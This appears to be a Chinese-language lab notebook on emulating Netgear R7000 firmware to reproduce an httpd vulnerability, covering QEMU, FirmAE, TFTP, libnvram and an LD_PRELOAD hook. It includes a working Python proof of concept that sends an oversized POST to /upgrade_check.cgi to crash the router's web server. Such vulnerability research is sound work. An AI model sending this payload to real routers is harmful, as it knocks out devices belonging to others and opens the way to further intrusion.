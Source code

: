 参考于文章[复现影响79款Netgear路由器高危漏洞](https://blog.csdn.net/q759451733/article/details/114459181)，但原文章是基于真实设备做的，这里尝试采用模拟的方式。

刚开始尝试qemu用户仿真，会报错说`libbdbroker.so`找不到
```
sudo chroot . ./qemu-arm-static /usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
/usr/sbin/httpd: can't load library 'libbdbroker.so'
```

然后去文件系统中找，这里会出现各种各种符号链接，但是是坏的，在提取的文件系统里确实找不到这个`libbdbroker.so`文件，这应该是路由器启动过程中动态生成的文件。

于是尝试使用FirmAE进行仿真，可以成功仿真！
```
sudo ./run.sh -d Netgear /home/iot/Desktop/firmware/Netgear/R7000-V1.0.11.100_10.2.100/R7000-V1.0.11.100_10.2.100.chk
```

![](images/Pasted%20image%2020230918224258.png)

通过debug模式进入shell，在FirmAE仿真的文件系统里可以找到`libbdbroker.so`文件，并且运行poc代码可以让http服务崩溃。
```python
# poc.py
import socket

ip = '192.168.1.1'
port = 80
argument_name = b"mtenFWUpload"

def send_plain(ip, port, payload):
	sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	sock.connect((ip, port))
	sock.send(payload)
	print(sock.recv(4096))
	sock.close()

data = b""
data += b"*#$^\x00" # marker
data += b"\x00\x04\x00" # size
data += b"A" * 0x400

payload = b''
payload += b'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += b'Host: 192.168.1.1\r\n'
payload += b'Content-Disposition: AAAA\r\n'
payload += b'Content-Length: 1024\r\n'
payload += b'Content-Type: application/octet-stream\r\n'
payload += b'name="mtenFWUpload"\r\n'
payload += b'\r\n'
payload += data

print(payload)

send_plain(ip, port, payload)

```

由于项目需要，要尝试将httpd程序通过用户仿真方式跑起来并能够触发崩溃，查看固件支持的命令发现支持tftp，于是在主机搭建tftp服务器，把缺少的`libbdbroker.so`文件拷贝出来再尝试运行。
## 搭建tftp服务器

在ubuntu主机上安装服务端
```
sudo apt-get install tftpd-hpa
```

创建tftp服务器目录
```
cd /home/iot/Desktop
mkdir tftp_share
```

配置tftp服务器
```
sudo vim /etc/default/tftpd-hpa
```

将内容更改为如下内容：
```
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/iot/Desktop/tftp_share"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-l -c -s"
```

重启tftp服务
```
sudo service tftpd-hpa restart
```

在FirmAE跑起来的固件环境shell中运行tftp命令传输文件
```
tftp -l /tmp/media/nand/bitdefender/patches/base/lib/libbdbroker.so -r libbdbroker.so  -p 192.168.1.2 69
```

然后在tftp配置的目录下就可以找到相应的文件。

将`libbdbroker.so`文件放在lib目录下，然后再以用户仿真运行httpd程序，这次报`/var/run/httpd.pid: No such file or directory`，原因是缺少相应的目录，创建对应目录即可。提取的文件系统var指向tmp/var（不存在），所以递归创建目录`tmp/var/run`，然后再运行。

这次就开始报`/dev/nvram: No such file or directory`，这是因为没有配置nvram，可以安装firmadyne项目中提供的方法进行配置。

## nvram配置
根据[firmadyne/libnvram: NVRAM emulator (github.com)](https://github.com/firmadyne/libnvram) 中Usage的描述，下载arm版本的release，将`libnvram.so`覆盖原来的文件`usr/sbin/libnvram.so`，在文件系统根目录创建目录
```
mkdir -p firmadyne/libnvram/
mkdir -p firmadyne/libnvram.override/
```

然后重新启动httpd程序，nvram问题解决了，但是又崩了。。

![](images/Pasted%20image%2020230919113506.png)

没找出原因在哪儿，放弃。ps.尝试通过greenhouse工具跑该固件，但是跑完后没有结果。

## 全系统仿真
前面没跑通，后来又尝试全系统模式仿真，测试发现上面的问题是因为NVRAM的值（`gui_region`）没有设置，需要设置它的值才能继续跑下去，但是后面还有很多NVRAM的值需要设置，暂时还是没跑起来，记录一下全系统仿真时的脚本。

```
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

./gdbserver-7.7.1-armel-v1 192.168.2.2:1234 usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

20231004

有很多访问`/dev/acos_nat_cli`外设的，调用`ioctl()`函数操作，无法处理，导致崩溃，主要封装在`agApi_*` 函数。

##############
嵌入式设备中的很多程序通过内核设备驱动程序与外设协作。通常，其使用ioctl命令行与外设通信。但因为每个设备驱动程序都有其独特的特征，这些特征取决于其开发人员和相应的设备，所以这一过程并不容易模拟。尽管Firmadyne实现了一些虚拟内核模块，支持/dev/naram和/dev/acos_nat_cli，但这远远无法涵盖实际场景中中固件映像的各种特性。所以，这一问题会导致很多固件映像仿真过程中崩溃。 
**Insufficient support of kernel module**尽管Firmadyne用硬编码设备名称和icotl命令实现了虚拟模块，但当程序用不同的配置来访问内核时还是会失败。例如，大量的NETGEAR映像使用acos_nat模块来与安装在/dev/acos_nat_cli上的外设通信。在这些映像中，Firmadyne模块返回不正确的值，并在httpd中形成无限循环。此外，我们还发现ioctl命令根据固件体系结构的不同而不同，这一点也需要考虑进来。
FirmAE的高级仿真方法可以利用特定内核模块的优势。这里关键的一点是通过共享库来访问许多内核模块，这些共享库有发送相应ioctl命令的函数。因此，FirmAE可以像处理NVRAM问题一样对其处理。当程序调用库函数时，FirmAE返回一个预定义的值。因此，并不需要模拟每个设备架构中的每一条icotl命令。在这个例子中，我们只需要关注acos_nat，而经由共享库的其他外设访问可以用相同的方式处理。
##############

下载交叉编译工具：[armv7-eabihf--uclibc--stable-2020.08-1](https://toolchains.bootlin.com/downloads/releases/toolchains/armv7-eabihf/tarballs/armv7-eabihf--uclibc--stable-2020.08-1.tar.bz2)

对相关函数进行hook
```
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <string.h>

int open(const char *file, int oflag, ...)
{
	fprintf(stderr, "hook open func!!\n");
	char str1[] = "/dev/acos_nat_cli";
	if(strcmp(str1, file) == 0){
		// 1==2
		fprintf(stderr, "return open 1 !!\n");
		return 1;
	}else{
		fprintf(stderr, "try call open !!\n");
		typeof(&open) orig = dlsym(RTLD_NEXT, "open");
		return orig(file, oflag);
	}
	return 1;
}
```

```
rmv7-eabihf--uclibc--stable-2020.08-1/bin/arm-linux-gcc hook.c -o hook.so  -fPIC -shared -ldl
```

运行
```
sudo chroot . ./qemu-arm-static -E LD_PRELOAD=./hook.so usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```

